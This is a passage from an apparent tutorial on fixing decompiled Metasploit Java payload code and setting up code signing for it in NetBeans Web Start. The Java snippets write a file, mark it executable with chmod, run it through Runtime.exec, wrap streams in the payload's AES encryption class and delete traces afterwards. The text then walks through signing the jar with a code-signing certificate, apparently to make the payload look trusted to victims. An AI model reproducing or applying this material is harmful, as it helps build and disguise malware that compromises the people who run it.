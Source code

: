 ```java
//Line 55
File localObject1 = new File(localFile1.getAbsolutePath() + ".dir");
//Line 56
((File)localObject1).mkdir();
//Line 93 - 100
File[] localObject6a = new File[] { (File)localObject3, ((File)localObject3).getParentFile(), (File)localObject2, (File)localFile3 };
     for (int k = 0; k < localObject6a.length; k++) {
          for (m = 0; (m < 10) && (!localObject6a[k].delete()); m++)
          {
               localObject6a[k].deleteOnExit();
               Thread.sleep(100L);
          }
     }
//Line 114
Runtime.getRuntime().exec(new String[] { "chmod", "+x", (String)localObject1 }).waitFor();
//Line 122
Runtime.getRuntime().exec(new String[] { (String)localObject1 });
//Line 175 - 177
Object[] localObject6b = (Object[])Class.forName("saic.AESEncryption").getMethod("wrapStreams", new Class[] { InputStream.class, OutputStream.class, String.class }).invoke(null, new Object[] { localObject3, localObject4, localObject5 });
localObject3 = (InputStream)localObject6b[0];
localObject4 = (OutputStream)localObject6b[1];
//Line 277
String localObject = localStringTokenizer.nextToken();
```

You can see that most of the issues revolve around the general Object class not being appropriately casted as the required type.
This should fix any errors regarding the metapsloit code.

### Setting up the JKS signing

From the first step above, you converted the code signing certificate into a jks key store file. This is what we will need to generate the signed jar file using netbeans.
Right click your project and goto “Properties”.
Goto Application ->Web Start
Click “Enable Web Start” Checkbox
Change codebase to “No Codebase”
